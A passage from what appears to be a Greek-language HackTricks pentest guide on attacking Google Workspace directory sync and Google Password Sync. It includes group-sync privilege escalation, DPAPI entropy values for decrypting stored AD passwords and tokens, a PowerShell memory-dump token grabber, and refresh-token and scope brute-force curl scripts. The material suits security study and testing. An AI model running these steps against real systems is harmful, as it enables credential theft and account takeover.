* Οι χρήστες μπορεί να **ξαναχρησιμοποιούν τον κωδικό πρόσβασης ή όχι από το AD ή EntraID**, αλλά αυτό σημαίνει ότι θα χρειαστεί να **συμβιβάσετε τους κωδικούς πρόσβασης των χρηστών για να συνδεθείτε**.
* Αν έχετε πρόσβαση στα **emails** των χρηστών, θα μπορούσατε να **αλλάξετε τον κωδικό πρόσβασης του Workspace ενός υπάρχοντος χρήστη**, ή **να δημιουργήσετε έναν νέο χρήστη**, να περιμένετε μέχρι να συγχρονιστεί και να ρυθμίσετε τον λογαριασμό.

Μόλις αποκτήσετε πρόσβαση στον χρήστη μέσα στο Workspace, μπορεί να του έχουν δοθεί κάποιες **άδειες από προεπιλογή**.

#### Επίθεση σε Ομάδες

Πρέπει επίσης να καταλάβετε πρώτα ποιες ομάδες συγχρονίζονται. Αν και υπάρχει η πιθανότητα ότι **ΟΛΕΣ** οι ομάδες συγχρονίζονται (καθώς το Workspace το επιτρέπει).

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν οι ομάδες και οι συμμετοχές εισάγονται στο Workspace, οι **χρήστες που δεν συγχρονίζονται στη συγχρονισμό χρηστών δεν θα δημιουργηθούν** κατά τη διάρκεια του συγχρονισμού ομάδων, ακόμη και αν είναι μέλη οποιασδήποτε από τις ομάδες που συγχρονίζονται.
{% endhint %}

Αν γνωρίζετε ποιες ομάδες από το Azure έχουν **ανατεθεί δικαιώματα στο Workspace ή GCP**, θα μπορούσατε απλώς να προσθέσετε έναν συμβιβασμένο χρήστη (ή νέο) σε αυτήν την ομάδα και να αποκτήσετε αυτά τα δικαιώματα.

Υπάρχει μια άλλη επιλογή για να καταχραστείτε υπάρχουσες προνομιούχες ομάδες στο Workspace. Για παράδειγμα, η ομάδα `gcp-organization-admins@<workspace.email>` συνήθως έχει υψηλά προνόμια πάνω στο GCP.

Αν ο συγχρονισμός από, για παράδειγμα, το EntraID, στο Workspace είναι **ρυθμισμένος να αντικαθιστά το domain** του εισαγόμενου αντικειμένου **με το email του Workspace**, θα είναι δυνατό για έναν επιτιθέμενο να δημιουργήσει την ομάδα `gcp-organization-admins@<entraid.email>` στο EntraID, να προσθέσει έναν χρήστη σε αυτήν την ομάδα και να περιμένει μέχρι να συμβεί ο συγχρονισμός όλων των ομάδων.\
**Ο χρήστης θα προστεθεί στην ομάδα `gcp-organization-admins@<workspace.email>` κλιμακώνοντας τα προνόμια στο GCP.**

### Από Google Workspace -> AD/EntraID

Σημειώστε ότι το Workspace απαιτεί credentials με πρόσβαση μόνο για ανάγνωση στο AD ή EntraID για να συγχρονίσει χρήστες και ομάδες. Επομένως, δεν είναι δυνατόν να καταχραστείτε το Google Workspace για να κάνετε οποιαδήποτε αλλαγή στο AD ή EntraID. Έτσι, **αυτό δεν είναι δυνατό** αυτή τη στιγμή.

Δεν γνωρίζω επίσης πού αποθηκεύει η Google τα credentials του AD ή το token του EntraID και δεν μπορείτε να τα ανακτήσετε επαναρυθμίζοντας τον συγχρονισμό (δεν εμφανίζονται στη φόρμα ιστού, πρέπει να τα δώσετε ξανά). Ωστόσο, από το διαδίκτυο μπορεί να είναι δυνατό να καταχραστείτε τη τρέχουσα λειτουργικότητα για **λίστα χρηστών και ομάδων**.

## GPS - Google Password Sync

Αυτό είναι το binary και η υπηρεσία που προσφέρει η Google για να **διατηρεί συγχρονισμένους τους κωδικούς πρόσβασης των χρηστών μεταξύ του AD** και του Workspace. Κάθε φορά που ένας χρήστης αλλάζει τον κωδικό του στο AD, ρυθμίζεται στην Google.

Εγκαθίσταται στο `C:\Program Files\Google\Password Sync` όπου μπορείτε να βρείτε το binary `PasswordSync.exe` για να το ρυθμίσετε και το `password_sync_service.exe` (η υπηρεσία που θα συνεχίσει να τρέχει).

### GPS - Ρύθμιση

Για να ρυθμίσετε αυτό το binary (και την υπηρεσία), χρειάζεται να **δώσετε πρόσβαση σε έναν Super Admin principal στο Workspace**:

* Συνδεθείτε μέσω **OAuth** με την Google και στη συνέχεια θα **αποθηκεύσει ένα token στο μητρώο (κρυπτογραφημένο)**
* Διαθέσιμο μόνο σε Domain Controllers με GUI
* Δίνοντας κάποια **credentials Service Account από το GCP** (json αρχείο) με δικαιώματα να **διαχειρίζεται τους χρήστες του Workspace**
* Πολύ κακή ιδέα καθώς αυτά τα credentials δεν λήγουν ποτέ και θα μπορούσαν να καταχραστούν
* Πολύ κακή ιδέα να δώσετε πρόσβαση σε SA πάνω στο workspace καθώς το SA θα μπορούσε να συμβιβαστεί στο GCP και θα είναι δυνατό να μεταβείτε στο Workspace
* Η Google το απαιτεί για domain controlled χωρίς GUI
* Αυτά τα creds αποθηκεύονται επίσης στο μητρώο

Όσον αφορά το AD, είναι δυνατό να υποδείξετε να χρησιμοποιήσει το τρέχον **context εφαρμογών, ανώνυμο ή κάποια συγκεκριμένα credentials**. Αν επιλεγεί η επιλογή credentials, το **username** αποθηκεύεται μέσα σε ένα αρχείο στο **δίσκο** και ο **κωδικός πρόσβασης** είναι **κρυπτογραφημένος** και αποθηκεύεται στο **μητρώο**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει **GPS**, να αποκτήσει πληροφορίες σχετικά με τη ρύθμιση και **ακόμη και να αποκρυπτογραφήσει τον κωδικό πρόσβασης και το token**.
{% endhint %}

Στο αρχείο **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** είναι δυνατό να βρείτε μέρος της ρύθμισης όπως το **`baseDN`** του AD που έχει ρυθμιστεί και το **`username`** των credentials που χρησιμοποιούνται.

Στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`** είναι δυνατό να βρείτε το **κρυπτογραφημένο refresh token** και τον **κρυπτογραφημένο κωδικό πρόσβασης** για τον χρήστη AD (αν υπάρχει). Επιπλέον, αν αντί για ένα token, χρησιμοποιούνται κάποια **credentials SA**, είναι επίσης δυνατό να βρείτε αυτά κρυπτογραφημένα σε αυτή τη διεύθυνση μητρώου. Οι **τιμές** μέσα σε αυτό το μητρώο είναι μόνο **προσβάσιμες** από **Διαχειριστές**.

Ο κρυπτογραφημένος **κωδικός πρόσβασης** (αν υπάρχει) είναι μέσα στο κλειδί **`ADPassword`** και είναι κρυπτογραφημένος χρησιμοποιώντας το **`CryptProtectData`** API. Για να τον αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Το κρυπτογραφημένο token (αν υπάρχει) είναι μέσα στο κλειδί **`AuthToken`** και είναι κρυπτογραφημένο χρησιμοποιώντας το **`CryptProtectData`** API. Για να το αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Επιπλέον, είναι επίσης κωδικοποιημένο χρησιμοποιώντας base32hex με το λεξιλόγιο **`0123456789abcdefghijklmnopqrstv`**.

Οι τιμές entropy βρέθηκαν χρησιμοποιώντας το εργαλείο. Ρυθμίστηκε να παρακολουθεί τις κλήσεις προς το **`CryptUnprotectData`** και **`CryptProtectData`** και στη συνέχεια το εργαλείο χρησιμοποιήθηκε για να εκκινήσει και να παρακολουθήσει το `PasswordSync.exe`, το οποίο θα αποκρυπτογραφήσει τον ρυθμισμένο κωδικό πρόσβασης και το auth token στην αρχή και το εργαλείο θα **δείξει τις τιμές για την entropy που χρησιμοποιήθηκε** και στις δύο περιπτώσεις:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Σημειώστε ότι είναι επίσης δυνατό να δείτε τις **αποκρυπτογραφημένες** τιμές στην είσοδο ή έξοδο των κλήσεων σε αυτές τις APIs επίσης (σε περίπτωση που κάποια στιγμή το Winpeas σταματήσει να λειτουργεί).

Σε περίπτωση που ο Password Sync έχει **ρυθμιστεί με credentials SA**, θα αποθηκευτεί επίσης σε κλειδιά μέσα στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Ακριβώς όπως με το GCPW, είναι δυνατό να κάνετε dump τη μνήμη της διαδικασίας του `PasswordSync.exe` και των διαδικασιών `password_sync_service.exe` και θα είστε σε θέση να βρείτε refresh και access tokens (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τα ρυθμισμένα credentials του AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> και τις διαδικασίες <code>password_sync_service.exe</code> και αναζητήστε tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας αυτό και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατόν να ζητήσετε οποιοδήποτε scope για το access token, καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

Από προεπιλογή, το GPS δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω σενάριο μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να δημιουργήσουμε ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.user
```
Το ίδιο που θα λάβετε αν δεν υποδείξετε καμία έκταση.

{% hint style="danger" %}
Με αυτή την έκταση θα μπορούσατε **να τροποποιήσετε τον κωδικό πρόσβασης ενός υπάρχοντος χρήστη για να κλιμακώσετε τα προνόμια**.
{% endhint %}

## Αναφορές

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
